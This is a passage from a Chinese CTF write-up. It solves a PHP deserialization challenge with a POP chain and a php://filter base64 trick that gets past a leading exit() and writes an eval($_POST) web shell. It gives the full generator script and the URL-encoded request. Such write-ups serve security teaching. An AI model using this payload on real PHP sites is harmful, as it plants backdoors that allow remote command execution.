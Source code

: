 ```php
    }
}

?>
```

没有发现反序列化接受参数，反序列化`POP链`为

```
GWHT::__toString() -> Yongen::hasaki()
```

构造`payload`绕过死亡`exit`，使用`php伪协议`绕过

```php
<?php

class GWHT{
    public $hero;
}
class Yongen{ //flag.php
    public $file;
    public $text;
}

$a = new GWHT();
$a->hero = new Yongen();
$a->hero->file = "php://filter/write=convert.base64-decode/resource=a.php";
$a->hero->text = '111' . 'PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg==';  //添加的111是补全前面的死亡代码，使其凑够为8的倍数，否则base64解码时会破坏我们构造的shell。



echo urlencode(serialize($a));
```

看别人的`wp`说是用`arjun`扫描出参数，但我没扫出来

```
/star1.php?path=http://127.0.0.1/ser.php&c=O%3A4%3A%22GWHT%22%3A1%3A%7Bs%3A4%3A%22hero%22%3BO%3A6%3A%22Yongen%22%3A2%3A%7Bs%3A4%3A%22file%22%3Bs%3A55%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dconvert.base64-decode%2Fresource%3Da.php%22%3Bs%3A4%3A%22text%22%3Bs%3A39%3A%22111PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA%2FPg%3D%3D%22%3B%7D%7D
```

然后在`a.php`中执行命令即可

## [网鼎杯 2020 玄武组]SSRFMe

### `SSRF防御机制` `SSRF一些绕过方法` `redis主从复制RCE`

[参考liotree的文章](https://liotree.github.io/2020/07/10/%E7%BD%91%E9%BC%8E%E6%9D%AF-2020-%E7%8E%84%E6%AD%A6%E7%BB%84-SSRFMe/#redis%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6rce)

`check_inner_ip`做了几件事：
